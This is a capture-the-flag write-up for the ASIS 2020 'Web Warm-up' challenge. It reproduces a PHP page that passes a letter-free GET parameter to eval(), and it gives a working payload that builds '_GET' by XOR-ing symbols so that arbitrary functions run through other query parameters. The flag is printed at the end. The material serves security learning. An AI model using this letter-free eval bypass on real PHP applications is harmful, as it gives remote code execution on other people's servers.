 # Web Warm-up

## Problem

```
Warm up! Can you break all the tasks? I'll pray for you!

read flag.php

Link: Link
```

## Solution

Accessing the webpage gives us the following code:
```php
<?php
if(isset($_GET['view-source'])){
    highlight_file(__FILE__);
    die();
}

if(isset($_GET['warmup'])){
    if(!preg_match('/[A-Za-z]/is',$_GET['warmup']) && strlen($_GET['warmup']) <= 60) {
    eval($_GET['warmup']);
    }else{
        die("Try harder!");
    }
}else{
    die("No param given");
} 
```

So we need to provide a value for the parameter `warmup` that satisfies the following constraints:
- cannot contain any letters 
- has a length <= 60
- contain a payload that will get us the flag.

Googling `php eval exploit without letters` online, I found this [article](https://www.programmersought.com/article/7881105401/) explaining that we can get letters through XOR-ing strings that contain only special characters. For example, php will interpret 
`"{" ^ "<"` as `G`.

Going further with this we can make the source code evaluate an expression with the restricted parameter, but using another parameter from the query string that is not restricted. We want to achive something along the lines of `eval("_GET['another_parameter']")`.

As you can see from the article, we can write `GET` as `"{{{"^"<>/"`. Using this, we can achive RCE with the next exploit:
```
$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
```
Breaking it down, we have:
- `$_="_GET"`: a variable called `_` with the value `_GET`
- `${$_}[_]` (invoking `$_GET[_]` that will take the value from the query parameter called `_`. We will use this to pass a function)
- `(${$_}[__]);` (this will translate into `($_GET[__])`. We will use this as argument for the function we choose to pass)

The request's parameters that will get us the flag:

![](images/webwarmup_flag.PNG)

**Flag**: `ASIS{w4rm_up_y0ur_br4in}`
           

&nbsp;

#### References:
* [XOR character bypassing](https://www.programmersought.com/article/7881105401/)
* https://github.com/saw-your-packet/ctfs/blob/master/ASIS%20CTF%20Quals%202020/Write-ups.md#web-warm-up